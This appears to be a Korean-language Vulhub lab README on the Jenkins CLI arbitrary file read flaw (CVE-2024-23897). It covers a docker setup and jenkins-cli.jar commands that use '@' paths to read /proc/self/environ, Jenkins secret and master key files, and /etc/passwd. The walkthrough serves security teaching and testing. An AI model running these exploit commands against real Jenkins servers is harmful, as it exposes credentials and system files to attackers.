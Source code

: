 # CLI를 통한 Jenkins 임의 파일 읽기(CVE-2024-23897)

[중국어버전(Chinese version)](README.zh-cn.md)

Jenkins는 오픈소스 자동화 서버입니다.

Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 구문 분석합니다. 이 명령 구문 분석기는 인수의 @ 문자 뒤에 오는 파일 경로를 파일 내용으로 대체하는 기능(expandAtFiles)을 가지고 있으며, 이를 통해 공격자는 Jenkins 서버에서 임의 파일을 읽을 수 있습니다.

이 취약점은 Jenkins 2.441 이전 버전에 영향을 미칩니다.


참고:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 취약점 발생 환경

Jenkins 서버 2.441을 시작하려면 다음 명령을 실행하세요.

```
docker compose up -d
```

서버가 시작된 후 `http://your-ip:8080/` 을 통해 Jenkins 서버에 액세스할 수 있습니다. 기본 관리자의 사용자 이름과 비밀번호는 `admin`과 `vulhub` 입니다.


## 취약점 공격(익스플로잇)

먼저 `http://localhost:8080/jnlpJars/jenkins-cli.jar` 을 통해 명령줄 클라이언트 `jenkins-cli.jar` 를 다운로드해야 합니다.

`/proc/self/environ` 파일을 읽어 Jenkins 기본 디렉터리인 `JENKINS_HOME=/var/jenkins_home` 을 가져옵니다.

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

![image](https://github.com/user-attachments/assets/ea1f7ea9-9280-4cec-ade5-df307a896c83)



이 명령을 사용하면 `secrets.key` 또는 `master.key` 와 같은 민감한 파일을 익명으로 검색할 수 있습니다(명령줄에서 오류가 발생하면 파일의 첫 번째 줄만 읽을 수 있습니다).

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![image](https://github.com/user-attachments/assets/680bb4bd-bfee-49dc-ae29-ba9ca91e04c9)


```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![image](https://github.com/user-attachments/assets/c7c5c11a-46bf-468b-9679-49087b7cfed3)

"익명 읽기 액세스 허용"이 켜져 있으므로 전체 콘텐츠도 읽을 수 있습니다. 파일:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![image](https://github.com/user-attachments/assets/55c06b24-6dd9-4330-9f6e-005dc597a494)

